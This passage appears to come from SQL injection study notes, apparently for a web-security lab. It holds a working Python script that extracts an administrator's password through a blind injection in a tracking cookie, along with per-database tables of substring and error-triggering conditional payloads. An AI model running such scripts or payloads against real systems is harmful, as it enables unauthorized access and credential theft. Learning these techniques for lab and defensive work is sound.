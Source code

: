 ```python
with httpx.Client() as client:
   for position in range(1, password_length + 1):  
    for x in alphabet:  
        cookies["TrackingId"] = (
            f"PCC6wvbtVCknZGoW' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'), {position}, 1) = '{x}"
        )
        
        response = httpx.get(url, cookies=cookies)

        if "Welcome back!" in response.text: 
            password += x
            print(f"Found character at position {position}: {x}")
            break

print(f"Password: {password}")


```
You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string ba.

| Database   | Syntax                      |
| ---------- | --------------------------- |
| Oracle     | `SUBSTR('foobar', 4, 2)`    |
| Microsoft  | `SUBSTRING('foobar', 4, 2)` |
| PostgreSQL | `SUBSTRING('foobar', 4, 2)` |
| MySQL      | `SUBSTRING('foobar', 4, 2)` |


## Error-based SQL injection

Use error messages to extract or infer sensitive data from the database

### Exploit blind SQL injection by triggering conditional erroes

| Database   | Query                                                                                   |
| ---------- | --------------------------------------------------------------------------------------- |
| Oracle     | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`      |
| Microsoft  | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`                         |
| PostgreSQL | `1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)`          |
| MySQL      | `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` |



```
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```
Use `CASE` keyword to test condition:
